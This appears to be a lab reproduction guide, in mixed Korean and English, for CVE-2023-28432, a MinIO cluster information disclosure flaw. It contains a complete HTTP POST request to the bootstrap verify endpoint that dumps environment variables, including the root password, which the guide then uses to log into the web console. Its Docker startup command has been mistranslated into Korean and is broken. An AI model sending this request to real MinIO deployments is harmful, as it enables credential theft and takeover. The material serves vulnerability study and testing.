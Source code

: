 # MinIO Information Disclosure in Cluster Deployment (CVE-2023-28432)

[中文版本(Chinese version)](README.zh-cn.md)

MinIO는 GNU Affero 일반 공중 사용 허가서 v3.0에 따라 출시된 고성능 오브젝트 스토리지입니다.

RELEASE.2023-03-20T20-16-18Z` 이전 버전에서 MinIO를 클러스터 모드로 배포할 경우 정보 유출 취약점이 존재합니다. 공격자는 HTTP 요청을 통해 `MINIO_SECRET_KEY`, `MINIO_ROOT_PASSWORD`를 포함한 대상 프로세스의 모든 환경 변수를 획득할 수 있습니다.

References:

- <https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q>
- <https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ>

## Vulnerable Environment

다음 명령을 실행하여 MinIO 클러스터를 시작합니다:

```
도커 컴포즈 업 -d
```

클러스터가 시작되면 다음에서 웹 콘솔을 탐색할 수 있습니다. `http://your-ip:9001`, API server on `http://your-ip:9000`.

## Vulnerability Reproduce

The issue exists in the API endpoint `http://your-ip:9000/minio/bootstrap/v1/verify`. 모든 환경 변수를 검색하도록 요청을 보냅니다:

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](1.png)

It can be seen that `MINIO_ROOT_USER` and `MINIO_ROOT_PASSWORD` is exposed.

Success to use this username and password to login the Web console:

![](2.png)
